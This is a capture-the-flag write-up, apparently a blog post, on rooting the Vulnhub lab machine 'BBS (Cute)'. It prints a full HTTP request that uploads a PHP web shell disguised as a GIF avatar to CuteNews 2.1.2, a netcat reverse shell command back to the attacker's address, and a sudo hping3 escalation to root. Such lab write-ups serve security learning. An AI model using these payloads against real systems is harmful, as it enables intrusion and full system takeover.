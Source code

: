 ```yaml
---
layout: post
title:  "Vulnhub - BBS (Cute) 1.0.1"
date:   2020-09-25 20:00:00 +1000
category: hacking
---
```


## Introduction
*Easy->Intermediate.  
Description: really technical machine, if you are ready for certifications it will be a good tool to test yourself. You will find a very rare final exploit technique, which you have hardly seen before!*

I don't consider myself ready for certifications, so this sounds like an interesting challenge despite being ranked fairly easy. Let's see.

## Ports
We've got a few ports - SSH on 22, HTTP on 80 AND 88, and POP3(S) on 110/995.
Port 80 is Apache, and 88 is nginx.

## Webserver
Running some gobuster on both webservers we find basically nothing on Port 88, but we do get a series of hits on Port 80. The home page is the *Apache2 Debian Default Page* (index.html), but there is also an index.php, which is the login page for [CuteNews](http://cutephp.com/cutenews/) 2.1.2. 

CuteNews 2.1.2 is the subject of [CVE-2019-11447](https://www.cvedetails.com/cve/CVE-2019-11447/), which is an Authenticated RCE vulnerability. However we don't need credentials, because we can register a new account and then do the exploit, so it's pretty bad. It's only rated a 6.5 CVSS score though. Not sure why.

## Exploit
I've actually done this exploit before recently on another platform, so I was somewhat familiar with it - not that it's complicated. In this case we simply register a new account with whatever username and password we want. The only wrinkle is a captcha, and we can get the code at http://192.168.1.88/captcha.php. Once we are authenticated, we can upload some PHP code as an 'avatar' for our account, pretending it is a GIF.

Our request looks like this:

{% highlight HTML %}
POST /index.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.88/index.php?mod=main&opt=personal
Content-Type: multipart/form-data; boundary=---------------------------20688818661567104181146495050
Content-Length: 1387
Connection: close
Cookie: CUTENEWS_SESSION=qjseie848gmfu8srtg7klqvhub
Upgrade-Insecure-Requests: 1

-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="mod"
main
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="opt"
personal
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="__signature_key"
a1904c65ad2aac6dc0ba7191b4cb43b2-user
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="__signature_dsi"
42262721ce39e4830101dfe95548f235
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="editpassword"
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="confirmpassword"
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="editnickname"
user
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="avatar_file"; filename="shell.php"
Content-Type: image/png
GIF8

<?php system($_GET['cmd']); ?>
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="more[site]"
-----------------------------20688818661567104181146495050

Content-Disposition: form-data; name="more[about]"
-----------------------------20688818661567104181146495050--
{% endhighlight %}

Once this is done we can visit:

{% highlight HTML %}
http://192.168.1.88/uploads/avatar_user_shell.php
{% endhighlight %}

And issue commands like:

``
?cmd=whoami
``

or, more usefully (after starting a listener):

``
http://192.168.1.88/uploads/avatar_user_shell.php?cmd=nc%20-e%20/bin/sh%20192.168.1.77%201234
``

And we're in. 

## Privesc

{% highlight shell %}
User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3
{% endhighlight %}

Uh ... ok ... what's **hping3**? Apparently it's some [ping](http://wiki.hping.org/94)-like tool. BUT, it can run TCL scripts, and has an interactive shell mode to do so. If you enter the shell mode you can just enter typical commands, or you can do this:

{% highlight shell %}
www-data@cute:/dev/shm$ sudo -u root /usr/sbin/hping3
sudo -u root /usr/sbin/hping3
hping3> exec /bin/sh <@stdin >@stdout 2>@stderr
exec /bin/sh <@stdin >@stdout 2>@stderr
# whoami
whoami
root
{% endhighlight %}

And we have a typical root prompt. Cool. We are done.
